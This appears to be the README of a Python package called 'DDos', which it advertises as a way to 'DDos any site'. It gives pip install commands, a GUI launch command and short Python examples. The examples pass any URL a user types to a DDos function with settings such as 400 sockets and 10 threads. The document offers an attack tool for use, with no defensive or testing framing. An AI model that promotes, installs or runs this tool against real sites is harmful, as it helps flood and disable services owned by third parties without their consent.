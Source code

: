# DDos

DDos any site using python

## Install

### From Pypi

`pip3 install DDos`

### From GitHub

`pip3 install git+https://github.com/donno2048/DDos`

## Usage

### GUI

To use it just run:

```sh
DDos
```

or

```sh
ddos
```

in the terminal to launch the GUI (tkinter is a requirement for the GUI so use: `sudo apt-get update && sudo apt-get install python3-tk -y` on linux and on Windows it's already installed)

### TUI

To use the text-based user interface see this python example:

```py
from DDos import checkUrl, DDos # import the needed functions
while True:
    url = input("Give me a URL: ") # get a url from the user
    if checkUrl(url): break # if it's formatted correctly exit the loop
    else: print("This URL isn't formatted correctly, try again") # else, go back
DDos(url, 400, 10) # ddos this url with 400 sockets and 10 threads
```

or simply:

```py
from DDos import DDos
DDos(input("Give me a URL: ")) # if the url isn't formatted correctly it will have an assertion error, use 500 sockets and 10 threads
```
